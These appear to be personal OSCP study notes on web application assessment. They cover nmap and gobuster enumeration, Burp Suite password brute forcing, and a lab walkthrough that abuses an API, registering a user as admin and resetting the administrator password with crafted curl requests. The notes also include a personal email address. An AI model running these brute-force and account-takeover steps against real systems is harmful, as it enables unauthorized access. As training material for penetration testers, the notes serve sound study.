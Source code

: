 ## 8.1. Web Application Assessment Methodology

## 8.2. Web Application Assessment Tools

###### 8.2.1. Fingerprinting Web Servers with Nmap 

1. Nmap service scan to grab web server banner
```
sudo nmap -p80  -sV 192.168.50.20
```

2. Initial fingerprinting of the web server
```
sudo nmap -p80 --script=http-enum 192.168.50.20
```

###### 8.2.2. Technology Stack Identification with wappalyzer

1. Wappalyzer app provides all technology stack details. Use sujanp788@gmail.com email with regular password. 

###### 8.2.3. Directory Brute Force with Gobuster

1. Gobuster for directory enumeration 
```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
# dir for directory enumeration
# u for specify target IP 
# W for specifying wordlist
# t for amount of traffic
```

###### 8.2.4. Security Testing with Burp Suite

1. Following content is enough
2. Login brute forcing with brup suite
a. Intercept the login traffic with wrong credentials. 
b. Send the post traffic to intruder 
c. Clear all the $. 
d. Add $ in password value only. 
c. Add wordlist (Top 10 words from rockyou.txt - cat /usr/share/wordlists/rockyou.txt| head )
d. Copy that and past in payloads > payload options > start attack 
e. Right password will have different status code. 

## 8.3. Web Application Enumeration

##### 8.3.3. Enumerating and Abusing APIs

1. Create pattern file. 
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ cat pattern                               
{GOBUSTER}/v1
{GOBUSTER}/v2
```

2. Enumerate API with gobuster 
```
 gobuster dir -u http://192.168.228.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

/books/v1             (Status: 200) [Size: 235]
/console              (Status: 200) [Size: 1985]
/ui                   (Status: 308) [Size: 265] [--> http://192.168.50.16:5001/ui/]
/users/v1             (Status: 200) [Size: 241]
```

3. Check out /users API with curl. 
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -i http://offsecwp:5002/users/v1
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 316
Server: Werkzeug/1.0.1 Python/3.7.13
Date: Sat, 20 Jan 2024 00:44:51 GMT

{
  "users": [
    {
      "email": "mail1@mail.com", 
      "username": "name1"
    }, 
    {
      "email": "mail2@mail.com", 
      "username": "name2"
    }, 
    {
      "email": "admin@mail.com", 
      "username": "admin"
    }, 
    {
      "email": "pwn@offsec.com", 
      "username": "offsec"
    }
  ]
}
```


3. Check out if we can find further subdirectories within it. 
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ gobuster dir -u http://offsecwp:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://offsecwp:5002/users/v1/admin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/01/19 19:46:30 Starting gobuster in directory enumeration mode
===============================================================
/email                (Status: 405) [Size: 142]
/password             (Status: 405) [Size: 142]
Progress: 959 / 960 (99.90%)
===============================================================                                                                                             
2024/01/19 19:47:35 Finished                                                                                                                                
===============================================================   
```


4. Check out obtained subdirectory
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -i http://offsecwp:5002/users/v1/admin/password
HTTP/1.0 405 METHOD NOT ALLOWED
Content-Type: application/problem+json
Content-Length: 142
Server: Werkzeug/1.0.1 Python/3.7.13
Date: Sat, 20 Jan 2024 00:48:50 GMT

{
  "detail": "The method is not allowed for the requested URL.",
  "status": 405,
  "title": "Method Not Allowed",
  "type": "about:blank"
}
```


5. Check out if login exist or not. 
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -i http://offsecwp:5002/users/v1/login         
HTTP/1.0 404 NOT FOUND
Content-Type: application/json
Content-Length: 48
Server: Werkzeug/1.0.1 Python/3.7.13
Date: Sat, 20 Jan 2024 00:51:11 GMT

{ "status": "fail", "message": "User not found"}   
```

6. Crafting a POST request against the login API. 
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://offsecwp:5002/users/v1/login
{ "status": "fail", "message": "Password is not correct for the given username."}  
```


7. Attempting new User Registration
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://offsecwp:5002/users/v1/register
{ "status": "fail", "message": "'email' is a required property"} 
```

8. Attempting to register a new user as admin
```
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```

9. Logging in as an admin user
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://offsecwp:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MDU3MTI1NDksImlhdCI6MTcwNTcxMjI0OSwic3ViIjoib2Zmc2VjIn0.6lvlt5OnRdvoK-DTace2Ks2GeNElE2NJ702NHpWcKQM", "message": "Successfully logged in.", "status": "success"}  
```

10. Attempting to change the administrator password via a POST request
```
kali@kali:~$ curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MDU3MTI1NDksImlhdCI6MTcwNTcxMjI0OSwic3ViIjoib2Zmc2VjIn0.6lvlt5OnRdvoK-DTace2Ks2GeNElE2NJ702NHpWcKQM' \
  -d '{"password": "pwned"}'

{
  "detail": "The method is not allowed for the requested URL.",
  "status": 405,
  "title": "Method Not Allowed",
  "type": "about:blank"
}
```


12. Explicitly define it with new token. 
```
┌──(kali㉿kali)-[~/OSCP/8]
└─$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://offsecwp:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MDU3MTMxMjUsImlhdCI6MTcwNTcxMjgyNSwic3ViIjoib2Zmc2VjIn0.fXIYEx797n_eOk5GSTNe6WyDsfVQ_CY_Mi2mGsSW9nM", "message": "Successfully logged in.", "status": "success"}   
```

13. Attempting to change the administrator password via a PUT request. 
```
kali@kali:~$ curl -X 'PUT' \
  'http://offsecwp:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MDU3MTMxMjUsImlhdCI6MTcwNTcxMjgyNSwic3ViIjoib2Zmc2VjIn0.fXIYEx797n_eOk5GSTNe6WyDsfVQ_CY_Mi2mGsSW9nM' \
  -d '{"password": "pwned"}'
```

14. Successfully logging in as the admin account. 
```
──(kali㉿kali)-[~/OSCP/8]
└─$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://offsecwp:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MDU3MTMyNDEsImlhdCI6MTcwNTcxMjk0MSwic3ViIjoiYWRtaW4ifQ.ttAeKcrWQfO61PyplcRCVwUN8WNyqoLXAO0kxTJg-Yg", "message": "Successfully logged in.", "status": "success"}  
```




*Lab Exercise*
1. Check out about us page, search directly. 
2. curl -i http://offsecwp:5002/books/v1 
3. Checkout robots.txt and sitemap.xml
4. 



## 8.4. Cross-Site Scripting


## 8.5. Wrapping Up